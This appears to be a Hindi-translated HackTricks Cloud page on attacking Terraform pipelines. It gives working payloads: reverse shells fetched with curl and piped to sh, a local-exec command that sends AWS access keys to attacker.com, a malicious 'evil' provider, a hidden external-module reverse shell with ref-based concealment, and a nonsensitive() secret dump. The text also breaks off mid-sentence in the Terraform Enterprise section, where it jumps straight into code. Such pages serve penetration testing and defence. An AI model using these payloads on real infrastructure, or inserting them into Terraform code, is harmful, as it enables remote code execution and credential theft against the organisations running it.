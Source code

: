 # टेराफ़ॉर्म सुरक्षा

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **त्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks और HackTricks Cloud** गिथब रेपो में पीआर जमा करके।

</details>

## मूलभूत जानकारी

HashiCorp Terraform एक **इंफ्रास्ट्रक्चर के रूप में कोड टूल** है जिसकी मदद से आप मानव-पठनीय कॉन्फ़िगरेशन फ़ाइलों में **क्लाउड और ऑन-प्रेम संसाधनों** को परिभाषित कर सकते हैं, जिन्हें आप संस्करण, पुनर्उपयोग और साझा कर सकते हैं। फिर आप एक सुसंगत वर्कफ़्लो का उपयोग करके अपने सभी इंफ्रास्ट्रक्चर को उत्पन्न और प्रबंधित कर सकते हैं। टेराफ़ॉर्म कम स्तरीय घटकों जैसे कंप्यूट, स्टोरेज और नेटवर्किंग संसाधनों के साथ ही डीएनएस प्रविष्टियों और सास सुविधाओं जैसे उच्च स्तरीय घटकों को प्रबंधित कर सकता है।

### टेराफ़ॉर्म कैसे काम करता है?

टेराफ़ॉर्म एप्लिकेशन प्रोग्रामिंग इंटरफ़ेस (APIs) के माध्यम से क्लाउड प्लेटफ़ॉर्म और अन्य सेवाओं पर संसाधनों को बनाता है और प्रबंधित करता है। प्रदाताओं की मदद से टेराफ़ॉर्म को लगभग किसी भी प्लेटफ़ॉर्म या सेवा के साथ काम करने की अनुमति होती है।

![](<../../.gitbook/assets/image (33).png>)

HashiCorp और टेराफ़ॉर्म समुदाय ने पहले से ही **1700 से अधिक प्रदाताओं** को लिखा है जो अलग-अलग प्रकार के संसाधनों और सेवाओं को प्रबंधित करने के लिए हैं, और यह संख्या बढ़ती जा रही है। आप [टेराफ़ॉर्म रजिस्ट्री](https://registry.terraform.io/) पर सभी सार्वजनिक उपलब्ध प्रदाताओं को खोज सकते हैं, जिनमें अमेज़न वेब सेवाएं (AWS), एज़्यूर, गूगल क्लाउड प्लेटफ़ॉर्म (GCP), कुबरनेटीज़, हेल्म, गिटहब, स्प्लंक, डेटाडॉग और बहुत कुछ शामिल हैं।

टेराफ़ॉर्म के मूल वर्कफ़्लो में तीन चरण होते हैं:

* **लिखें:** आप संसाधनों को परिभाषित करते हैं, जो कि एकाधिक क्लाउड प्रदाताओं और सेवाओं पर हो सकते हैं। उदाहरण के लिए, आप एक कॉन्फ़िगरेशन बना सकते हैं जो एक वर्चुअल मशीन में एक एप्लिकेशन को डिप्लॉय करने के लिए वर्चुअल प्राइवेट क्लाउड (VPC) नेटवर्क में सुरक्षा समूह और लोड बैलेंसर के साथ बनाएगा।
* **योजना:** टेराफ़ॉर्म एक निष्पादन योजना बनाता है जिसमें मौजूदा इंफ्रास्ट्रक्चर और आपकी कॉन्फ़िगरेशन के आधार पर वह किसी भी इंफ्रास्ट्रक्चर को बनाएगा, अपडेट करेगा या नष्ट करेगा।
* **लागू करें:** मंजूरी पर, टेराफ़ॉर्म सही क्रम में प्रस्तावित आपरेशन करता है, किसी भी संसाधन की आवश्यकताओं का सम्मान करता है। उदाहरण के लिए, यदि आप एक VPC की संपत्तियों की गुणवत्ता अद्यतन करते हैं और उस VPC में वर्चुअल मशीनों की संख्या बदलते हैं, तो टेराफ़ॉर्म वर्चुअल मशीनों को स्केल करने से पहले VPC को फिर से बनाएगा।

![](<../../.gitbook/assets/image (81).png>)

### टेराफ़ॉर्म एंटरप्राइज

टेराफ़ॉर्म एंटरप्राइज आपको टेराफ़ॉर्म क्लाउड के एक स्व-होस्टेड संस्करण में `terraform plan` या `terraform apply` जैसे
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### एक कस्टम प्रोवाइडर का उपयोग करना

कोई भी [कस्टम प्रोवाइडर](https://learn.hashicorp.com/tutorials/terraform/provider-setup) लिख सकता है और इसे [Terraform रजिस्ट्री](https://registry.terraform.io/) पर प्रकाशित कर सकता है। आप एक निजी रजिस्ट्री से भी कस्टम प्रोवाइडर को पुल करने का प्रयास कर सकते हैं।

यह है:

* कस्टम प्रोवाइडर लिखें जो कुछ खतरनाक कोड चलाता है (जैसे क्रेडेंशियल्स या ग्राहक डेटा को निकालना)
* इसे Terraform रजिस्ट्री पर प्रकाशित करें
* फ़ीचर ब्रांच में टेराफ़ॉर्म कोड में प्रोवाइडर जोड़ें
* फ़ीचर ब्रांच के लिए एक पीआर खोलें
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
यहां प्रदाता `init` के दौरान पुल किया जाएगा और `plan` के दौरान कुछ कोड चलाया जाएगा, इसलिए आपके पास अनियमित कोड निष्पादन होता है।

आप एक उदाहरण यहां देख सकते हैं: [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### एक बाहरी संदर्भ का उपयोग करें

उल्लिखित दो विकल्प उपयोगी हैं, लेकिन बहुत छिपे हुए नहीं हैं (दूसरा पहले से अधिक छिपे हुए है लेकिन पहले से अधिक जटिल है)। आप इस हमले को एक **और छिपे हुए तरीके से** भी कर सकते हैं, निम्न सुझावों का पालन करके:

* टेराफ़ॉर्म फ़ाइल में सीधे रेव शैल जोड़ने की बजाय, आप एक **बाहरी संसाधन** लोड कर सकते हैं जिसमें रेव शैल होता है:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
आप [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) में रेवर्स शेल कोड पा सकते हैं।

* बाहरी संसाधन में, **ref** फीचर का उपयोग करें ताकि रेपो के भीतर **टेराफ़ॉर्म रेवर्स शेल कोड को छिपाएं**, कुछ इस तरह: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### टेराफ़ॉर्म एप्लाई

टेराफ़ॉर्म एप्लाई को सभी परिवर्तनों को लागू करने के लिए निष्पादित किया जाएगा, आप इसे एक दुष्ट टेराफ़ॉर्म फ़ाइल को इंजेक्ट करके आरसीई प्राप्त करने के लिए भी दुरुपयोग कर सकते हैं। [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
\*\*\*\* आपको सुनिश्चित करना होगा कि कुछ पेलोड जैसे निम्नलिखित वाले `main.tf` फ़ाइल में समाप्त होते हैं:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
इस हमले को **बाहरी संदर्भों का उपयोग करके छिपकर** करने के लिए, **पिछली तकनीक के सुझावों का पालन** करें।

## सीक्रेट डंप

आप `terraform apply` चलाकर **टेराफ़ॉर्म द्वारा उपयोग किए जाने वाले गुप्त मान्यताओं को डंप कर सकते हैं** टेराफ़ॉर्म फ़ाइल में निम्नलिखित कुछ जोड़कर:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## ऑडिट टूल्स

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec आपके टेराफ़ॉर्म कोड का स्टैटिक विश्लेषण करके संभावित मिसकॉन्फ़िगरेशन की पहचान करता है।
* [**terascan**](https://github.com/tenable/terrascan): Terrascan एक इंफ्रास्ट्रक्चर एस कोड के लिए स्टैटिक कोड विश्लेषक है।

## संदर्भ

* [अटलांटिस सुरक्षा](../atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आपको **PEASS की नवीनतम संस्करण देखना है या HackTricks को PDF में डाउनलोड करना है** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रेपो में पीआर जमा करके।

</details>
